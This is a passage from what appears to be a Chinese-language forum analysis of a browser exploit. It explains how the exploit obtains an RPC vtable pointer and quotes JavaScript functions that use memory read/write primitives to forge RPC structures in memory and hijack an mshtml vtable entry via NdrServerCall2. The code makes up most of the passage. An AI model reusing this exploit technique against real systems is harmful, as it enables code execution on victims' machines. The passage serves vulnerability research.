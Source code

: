 
第一个值 Handle 是 OSF_SCALL 虚表指针, 通过查看其引用, 可以通过调用函数 I_RpcTransServerNewConnection 函数获取到这个虚表指针填充至 handle.

 

![](https://bbs.pediy.com/upload/tmp/893960_YDB5MBDSBNKZ6S4.png)

 

![](https://bbs.pediy.com/upload/tmp/893960_QYYS2YBCZE98Q9M.png)

 

![](https://bbs.pediy.com/upload/tmp/893960_DNB56AEJGTCWG4F.png)

 

exp 中也是这样进行构造的

```
function aos() {
          var baseObj = createBase()
          var addr = baseObj.addr + baseObj.size
          var I_RpcTransServerNewConnection = getProcAddr(rpcrt4, 'I_RpcTransServerNewConnection')
          prepareCall(addr, I_RpcTransServerNewConnection)
          return read(read(call(addr) - 0xf8, 32), 32)
      }

```

然后对 RPC 结构进行初始化

```
function initRpc() {
           var data = [50, 72, 0, 0, 0, 0, 0, 0, 52, 0, 192, 0, 16, 0, 68, 13, 10, 1, 0, 0, 0, 0, 0, 0, 0, 0, 72, 0, 0, 0, 9, 0, 72, 0, 4, 0, 9, 0, 72, 0, 8, 0, 9, 0, 72, 0, 12, 0, 9, 0, 72, 0, 16, 0, 9, 0, 72, 0, 20, 0, 9, 0, 72, 0, 24, 0, 9, 0, 72, 0, 28, 0, 9, 0, 72, 0, 32, 0, 9, 0, 72, 0, 36, 0, 9, 0, 72, 0, 40, 0, 9, 0, 72, 0, 44, 0, 9, 0, 112, 0, 48, 0, 9, 0, 0]
           var NdrServerCall2 = getProcAddr(rpcrt4, 'NdrServerCall2')
           var NdrOleAllocate = getProcAddr(rpcrt4, 'NdrOleAllocate')
           var NdrOleFree = getProcAddr(rpcrt4, 'NdrOleFree')
           var RPCMessageObject = createArrayBuffer(cbase.size())
           var buffer = createArrayBuffer(0x100)
           var buffer2 = createArrayBuffer(0x200)
           var AttributeVtable = read(patt, 32)
           var MSHTMLSymbolBuffer = createArrayBuffer(0x1000)
           var TransferSyntaxBuffer = createArrayBuffer(syntaxObject.size())
           var PRPC_CLIENT_INTERFACE_Buffer = createArrayBuffer(PRPC_CLIENT_INTERFACE.size())
           var _MIDL_SERVER_INFO_Buffer = createArrayBuffer(_MIDL_SERVER_INFO_.size())
           var rpcProcStringBuffer = createArrayBuffer(data.length)
           writeData(rpcProcStringBuffer, data)
           var _MIDL_STUB_DESC_Buffer = createArrayBuffer(_MIDL_STUB_DESC.size())
           var RPC_DISPATCH_TABLE_Buffer = createArrayBuffer(RPC_DISPATCH_TABLE.size())
           var NdrServerCall2Buffer = createArrayBuffer(4)
           write(NdrServerCall2Buffer, NdrServerCall2, 32)
           write(MSHTMLSymbolBuffer, osf_vft, 32)
           write(MSHTMLSymbolBuffer + 4, 0x89abcdef, 32)
           write(MSHTMLSymbolBuffer + 8, 0x40, 32)
           cattr.set(MSHTMLSymbolBuffer, '__vtguard', cattr.get(AttributeVtable, '__vtguard'))
           cattr.set(MSHTMLSymbolBuffer, 'SecurityContext', cattr.get(AttributeVtable, 'SecurityContext'))
           cattr.set(MSHTMLSymbolBuffer, 'JSBind_InstanceOf', cattr.get(AttributeVtable, 'JSBind_InstanceOf'))
           cattr.set(MSHTMLSymbolBuffer, 'JSBind_TypeId', cattr.get(AttributeVtable, 'JSBind_TypeId'))
           cattr.set(MSHTMLSymbolBuffer, 'normalize', NdrServerCall2)
           cbase.set(RPCMessageObject, 'pSecurityContext', RPCMessageObject + 68)
           write(RPCMessageObject + 76, 1, 32)
           syntaxObject.set(TransferSyntaxBuffer, 'SyntaxVersion.MajorVersion', 2)
```